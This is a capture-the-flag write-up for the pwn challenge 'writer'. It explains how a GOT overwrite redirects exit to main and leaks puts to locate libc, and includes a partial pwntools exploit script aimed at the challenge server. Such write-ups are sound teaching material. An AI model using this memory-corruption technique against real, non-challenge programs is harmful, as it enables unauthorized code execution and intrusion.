 # writer
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/solves-30-orange)

## Description
Write somewhere.

Connect with `nc litctf.live 31790`

[writer.zip](https://drive.google.com/uc?export=download&id=1vdHjEz7BYW8xmP5w1qNYvmPRbZqdQ9Zg)

## Solution
Looking at the source code, it applies as seccomp filter banning `execve`, preventing us from getting remote code execution.

It then reads in a pointer from stdin, and prints 4 bytes from that location. Then it asks for 4 more bytes of user input to write to another location. After that, it reads `0x80` bytes onto the stack, repeats it, and exits.

```
$ checksec writer
[*] '~/lit/writer/writer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
 ```

Since the flag is not loaded anywhere in memory, there is nothing we can do in just one run of the program. Because relro is partial and the program is not positionally independent, we can overwrite the final exit call to instead be main, giving us near-infinite writes.

For the first iteration, we should try to leak libc, as that would give us a lot more room to work with. We can do this by leaking the address of `puts`, which is at a fixed offset from the start of libc. Then, we should overwrite `exit` with main's address. To get the locations to overwrite, we can just check the addresses of `puts` and `exit` in the `got.plt` section, in Ghidra. When resolving functions in partial relro mode, the program checks if a valid address exists in the `got.plt` table, and jumps to it if so.
```py
from pwn import *

context.arch = 'amd64'

ADDR_PUTS_GPLT = 0x404028
ADDR_EXIT_GPLT = 0x404060
ADDR_MAIN = 0x401264

# p = process("./writer")
p = remote("litctf.live", 31790)

p.recvuntil(b'where?\n')
p.sendline(str(ADDR_PUTS_GPLT).encode('utf-8'))
p.recvuntil(b'there:\n')
PUTS_LIBC = int(p.recv(1024).split(b'\n')[0].decode('utf-8')) & 0xffffffff
log.info("puts at: " + hex(PUTS_LIBC))
LIBC_BASE = PUTS_LIBC - 0x875a0 # https://libc.blukat.me/d/libc6_2.31-0ubuntu9_amd64.symbols
log.info("libc at: " + hex(LIBC_BASE))
assert(LIBC_BASE & 0xfff == 0)

log.info("getting infinite writes...")
p.sendline(str(ADDR_EXIT_GPLT).encode('utf-8'))
p.sendline(str(ADDR_MAIN).encode('utf-8'))
```